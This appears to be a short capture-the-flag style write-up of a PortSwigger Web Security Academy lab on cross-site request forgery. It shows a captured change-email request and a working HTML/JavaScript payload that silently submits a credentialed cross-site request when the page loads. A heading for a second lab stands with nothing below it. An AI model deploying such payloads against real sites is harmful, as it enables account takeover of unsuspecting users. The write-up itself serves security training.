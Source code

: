 # Portswigger (Cross-site request forgery)

## Lab: CSRF vulnerability with no defenses

A legitimate request to change the URL looks like this

```text
POST /my-account/change-email HTTP/1.1
Host: ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net
Cookie: session=<REDACTED>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: https://ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net
Referer: https://ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=test123123%40test.com
```

In order to create a CSRF payload, we need to make sure it's a simple request so that the preflight request is not sent. 

```text
<html>

<script>
function put() {
xhr = new XMLHttpRequest();
xhr.open("POST", "https://ac811f431eeaea8bc0c70a9d00860040.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=test123123%40test.com");
</script>

<body onload="put()">
</body>
</html>
```

## Lab: CSRF where token validation depends on request method
